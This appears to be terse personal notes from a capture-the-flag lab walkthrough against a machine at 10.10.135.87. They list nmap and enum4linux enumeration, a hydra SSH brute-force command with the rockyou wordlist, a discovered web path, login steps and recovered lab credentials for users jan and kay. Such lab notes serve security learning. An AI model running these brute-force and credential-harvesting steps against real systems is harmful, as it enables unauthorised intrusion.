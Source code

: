 #### Machine IP: 10.10.135.87
<br>
Enum:

`nmap -sV -sC -oA nmap/bpt 10.10.135.87`
<br>
<br>

Ports:
    <br>`hydra -l jan -P ~/Documents/wordlists/rockyou.txt ssh://10.10.135.87`<br><br>
    Ssh 22 -> Atacking[ brute forcing with hydra - User: jan:armando ]<br>
    Http 80
    139
    445

Dirbuster enum:<br>
    `http://10.10.135.87/development/`<br><br>


```
Loggin with ssh: ssh jan@ipmachine -p 22 : armando
Cd ..
Ls
Cd kay
vi pass.bak
```
<br>
<br>
For creds use:<br>

`enum4linux -v 10.10.135.87`
<br><br>

User creds:<br>
    jan:armando<br>
    key:heresareallystrongpasswordthatfollowsthepasswordpolicy$$



